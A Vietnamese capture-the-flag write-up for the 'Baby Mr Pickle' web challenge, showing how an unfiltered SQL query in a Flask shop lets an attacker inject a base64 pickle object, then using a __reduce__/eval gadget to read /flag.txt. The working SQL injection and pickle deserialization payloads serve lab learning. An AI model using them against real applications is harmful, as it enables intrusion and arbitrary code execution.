




# Python - Deserialization

**Tên challenge:**  Baby Mr Pickle

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/baby-mr-pickle)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Read the /flag.txt

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta được cung cấp Source Code và trang Web có 1 chức năng View đơn giản như sau:
	


**B2:** Ta thử View 1 sản phẩm:



Xem ra, trang Web này chỉ có chức năng đơn giản là View sản phẩm như ảnh trên thôi.

**B3:** Ta bắt đầu nghiên cứu Source Code:
1. File `routes.py`:
```
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)


@web.route('/')
def index():
    return render_template('index.jinja2', products=shop.all_products())


@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.jinja2', product=shop.select_by_id(product_id))
```
**Giải thích:**
* `/`: Đây là đường dẫn gốc của ứng dụng web. Khi người dùng truy cập domain của web, server sẽ gọi hàm `index()`, sau đó nó sẽ render template có tên `index.jinja2` trả về cho người dùng một danh sách các sản phẩm được truyền vào template thông qua parameter `products` với giá trị input là kết quả thực thi của hàm `all_products()` thuộc class `shop`.
* `/view/<product_id>`: Đây là một dynamic route, nghĩa là một phần của URL sẽ được xử lý như 1 biến ( ở đây là `product_id`). Khi một yêu cầu GET được gửi đến đường dẫn, Flask sẽ gọi hàm `product_details(product_id)` của class `shop` và truyền kết quả trả về vào biến `product`, sau đó sẽ render với template `item.jinja2`.

2. File `models.py`:
```
from application.database import query_db


class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')
```
**Giải thích:**
* `select_by_id()` sẽ lấy ra đối tượng có `id` được cung cấp qua parameter đầu vào `product_id`.

* `all_products()` sẽ lấy ra toàn bộ sản phẩm.

Ngoài ra, ta còn thấy parameter `product_id` được truyền vào ở hàm `select_by_id()` không hề được filter. Do đó, điều này sẽ dẫn đến SQL Injection.

3. File `app.py`:
```
from flask import Flask, g
from application.blueprints.routes import web
import pickle
import base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')


@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()
```
**Giải thích:**
* `template_filter` là một cách để thực hiện biến đổi hoặc xử lý dữ liệu trong quá trình render template. Cụ thể là dữ liệu sau khi lấy ra từ Database sẽ lại qua tiếp 1 `template_filter` rồi cuối cùng mới render ra cho người dùng.
* `template_filter('pickle')` sẽ gọi 1 hàm `pickles_load(s)` với chuỗi `s` là dữ liệu được lấy ra từ database. Chuỗi này sau đó sẽ được base64 decode và đưa vào hàm `pickle.loads()`.

4. File `database.py`:
```
from flask import g
from application import app
from sqlite3 import dbapi2 as sqlite3
import base64
import pickle


def connect_db():
    return sqlite3.connect('cop.db', isolation_level=None)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = connect_db()
        db.row_factory = sqlite3.Row
    return db


def query_db(query, args=(), one=False):
    with app.app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], value)
                   for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (next(iter(rv[0].values())) if rv else None) if one else rv


class Item:
    def __init__(self, name, price, image):
        self.name = name
        self.image = image
        self.price = price


def migrate_db():
    items = [
        Item('Dưa Cầu Giấy', '23', '/static/images/caugiay.jpg'),
        Item('Dưa Triều Khúc', '27', '/static/images/trieukhuc.jpg'),
        Item('Dưa Thạch Thất', '1337', '/static/images/thachthat.jpg'),
        Item('Dưa Thanh Xuân', '7.30', '/static/images/thanhxuan.jpg')
    ]

    with open('schema.sql', mode='r') as f:
        shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
        get_db().cursor().executescript(f.read().format(*list(shop)))
```

**Giải thích:**
* Phần trên của code ( trên phần khai báo class `Item` ) dùng để connect database và khai báo hàm truy vấn
* Từ phần khai báo class `Item`:
    * Class `Item` khởi tạo `__init__` gồm 3 thuộc tính gồm: `name`, `image`, `price`
    * Hàm `migrate_db()` đầu tiên khai báo 1 mảng gồm 4 phần tử là 4 object thuộc class Item. Tiếp đến, hàm này mở file `schema.sql` ở chế độ đọc và gán nội dung file cho biến `f`, sau đó sử dụng hàm `map` để thực hiện biến đổi trên từng phần tử trong mảng `items` được khai báo ở trên. Cụ thể, đoạn code sử dụng `pickle.dumps` để chuyển đổi mỗi phần tử thành một chuỗi bytes và sau đó là base64 encode. Kết quả cuối cùng trả về một mảng shop chứa các chuỗi base64.
    * Cuối cùng, hàm `migrate_db` sử dụng phương thức `format()` để định dạng nội dung đọc được từ file. Trong đó, cặp dấu {} trong nội dung file sẽ được thay thế bằng các giá trị trong danh sách shop sử dụng `*list(shop)`. Cuối cùng, `executescript()` được gọi để thực thi các câu lệnh SQL trong nội dung đã được định dạng.

Tóm lại, đoạn mã này mở một file `schema.sql`, thực hiện một quá trình biến đổi danh sách `items` thành một danh sách shop gồm các chuỗi base64, và sau đó thực thi nội dung của file `schema.sql` sau khi đã định dạng.

5. File `schema.sql`:
```
DROP TABLE IF EXISTS products;

CREATE TABLE products (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    data TEXT NOT NULL,
    created_at NOT NULL DEFAULT CURRENT_TIMESTAMP
);

INSERT INTO products (data) VALUES 
    ("{0}"),
    ("{1}"),
    ("{2}"),
    ("{3}");
```
Vậy là sau khi đoạn code của trên được thực thi thì database sẽ được thêm 4 hàng với giá trị là các chuỗi **base64**.

=> Đến lúc này, chúng ta đã hiểu hơn về hành vi của ứng dụng như sau:
1. Đầu tiên, ứng dụng thêm vào 4 sản phẩm dưới dạng **base64** vào Database.
2. Sau đó, mỗi khi người dùng truy cập trang web, toàn bộ sản phẩm sẽ được lấy ra từ Database (thông qua hàm `all_products()` ) và hiển thị cho người dùng, nếu click view 1 sản phẩm bất kỳ, ứng dụng sẽ thực hiện truy vấn (thông qua hàm `select_by_id()` ) và lấy ra dữ liệu của sản phẩm đó.
3. Dữ liệu được lấy ra lúc này vẫn ở dạng chuỗi **base64** và được truyền vào hàm `render_template('item.jinja2', product=shop.select_by_id(product_id))`, hàm này nhận giá trị parameter `product` làm đầu vào và giờ là lúc `template_filter('pickle')` thực hiện nhiệm vụ decode chuỗi dữ liệu **base64** và cho vào hàm `pickle.loads()`.

**Thông tin thêm:** `Pickle` được sử dụng để thực hiện chuyển đổi các cấu trúc đối tượng Python sang một dạng byte để có thể được lưu trữ trên ổ đĩa hoặc được gửi qua mạng. Và quá trình này được gọi là **Serialize**.
* `Pickle` serialize 1 đối tượng bằng cách gọi hàm `pickle.dumps()`.
* Ngược lại, nếu muốn chuyển từ một chuỗi byte trở lại đối tượng, chúng ta sử dụng hàm `pickle.loads()` và quá trình này gọi là **Deserialize**.

Vậy thì sẽ ra sao nếu chúng ta lợi dụng lỗ hổng SQL Injection ở endpoint `/view/` để truyền vào 1 đối tượng **Base64** do ta generate ra thì liệu ứng dụng có Deserialize và hiện lên trên trang Web không ?

**B3:** Ta thử nghiệm với giả thuyết trên:

1. Đầu tiên, ta dùng code sau để generate chuỗi Base64 với đối tượng do ta kiểm soát:
```
import pickle, base64

test = {"name":"test","price":"100"}

print(base64.b64encode(pickle.dumps(test)).decode())
```
2. Sau đó, ta sẽ được chuỗi Base64 có dạng như sau:
```
$> python test.py
gASVIQAAAAAAAAB9lCiMBG5hbWWUjAR0ZXN0lIwFcHJpY2WUjAMxMDCUdS4=
```
3. Ta sẽ truyền payload này vào thông qua lỗ hổng SQL Injection ở `/view/` qua payload:
```
-1' UNION SELECT 'gASVIQAAAAAAAAB9lCiMBG5hbWWUjAR0ZXN0lIwFcHJpY2WUjAMxMDCUdS4=' --
```


=> Vậy là ta đã thành công làm cho ứng dụng deserialize object độc hại do ta truyền vào.

**B4:** Ta thực thi lấy `Flag` thông qua các bước tương tự:
1. Đầu tiên ta dùng code python sau để generate ra chuỗi Base64:
```
import pickle, base64

class test:
    def __reduce__(self):
        p="open('/flag.txt').read()"
        return (eval,(p,))

rs={'name':test()}

print(base64.b64encode(pickle.dumps(rs)).decode())
```
**Giải thích:**
* Đầu tiên, ta khai báo 1 class có tên `test`, class này có 1 method duy nhất đó là `__reduce__` . Phương thức này sẽ được gọi khi một đối tượng được **Deserialize**.

* Dòng tiếp theo khai báo 1 string `p` có nội dung là một câu lệnh của python: `open('/flag.txt').read()`. Câu lệnh này sẽ thực hiện mở file `/flag.txt` ở Server ứng dụng và đọc nội dung.
* Cuối cùng mình trả về một tuple gồm 2 phần tử, phần tử đầu tiên là hàm `eval()` và phần tử thứ hai là `p`. Có thể hiểu là return có dạng sau: `return eval(open('/flag.txt').read())`, cuối cùng sẽ trả về kết quả của nội dung `flag.txt`.

2. Ta truyền chuỗi base64 vừa generate vào `/view/` tương tự như ở bước 3 thông qua payload:
```
-1' UNION SELECT 'gASVPgAAAAAAAAB9lIwEbmFtZZSMCGJ1aWx0aW5zlIwEZXZhbJSTlIwYb3BlbignL2ZsYWcudHh0JykucmVhZCgplIWUUpRzLg==` --
```



=> Vậy là ta đã thành công lấy được `Flag`.